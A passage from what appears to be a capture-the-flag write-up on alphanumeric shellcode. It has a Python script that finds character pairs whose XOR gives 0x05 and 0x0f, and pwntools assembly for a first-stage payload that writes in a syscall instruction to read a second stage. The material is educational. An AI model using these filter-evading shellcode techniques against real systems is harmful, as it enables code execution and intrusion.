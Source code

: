```
import string

x = ""
x += string.letters
x += string.digits

for i in x:
    for j in x:
        y = ord(i) ^ ord(j)
        if y == 0xf:
            print "combo 0xf: " + i + " " + j
        if y == 0x5:
            print "combo 0x5: " + i + " " + j
```

When we run the script, we see that `a` and `d` gives us `0x5`, and `a` and `n` gives us `0xf`. The last thing we need is the offset that we give for the right with `rcx` (the `+ imma`) has to be an alphanumeric character. Since the smallest one we can fit in there is `0x30 ('0')` we will do that. However this will create a large offset between the end of our shellcode, and where the syscall instruction is that we will need to fill.

After that is done, we will need to zero out the `rax` register again. To do this, we can just push the `rdi` register onto the stack and then pop it's value into the `rax` register (since `rdi`s value is `0x0`). The `rdi` register value is already `0x0` so we don't need to worry about it. The `rsi` register already holds a pointer to the memory we want to write to, so we don't need to worry about it. For `rdx` we can just push `rbx`, then pop it's value into `rdx` to get it to hold the value `0x4000`.

After that, we will need something to fill the space between the end of our shellcode (the part which preps the syscall) and the syscall instruction. We can do this by just adding the instruction `push rax; pop rax` which after the instruction is done, doesn't effectively change anything (so we can use it kind of like a nop) and it's opcodes are made out of alphanumeric characters. Putting it all together here is our shellcode for the first read:

```
# Here is the shellcode which will do the prep for the syscal
# Also we need to appen the 'PP' (0x5050) in fron of the 'aa' (0x6161) since we need alphanumeric cha
racters there
sc0 = asm("""
push rsi
pop rcx
xor eax, 0x50506161
xor dword ptr [rcx + 0x30], eax
push rdi
pop rax
push rbx
pop rdx      
""")

# Appen our psuedo nops to the end of the shellcode 
nop = asm("push rax; pop rax")

while len(sc0) < 0x30:
    sc0 += nop

# Here are the other two characters which will be xored to get '\x05\x0f'
sc0 += "nd"
```
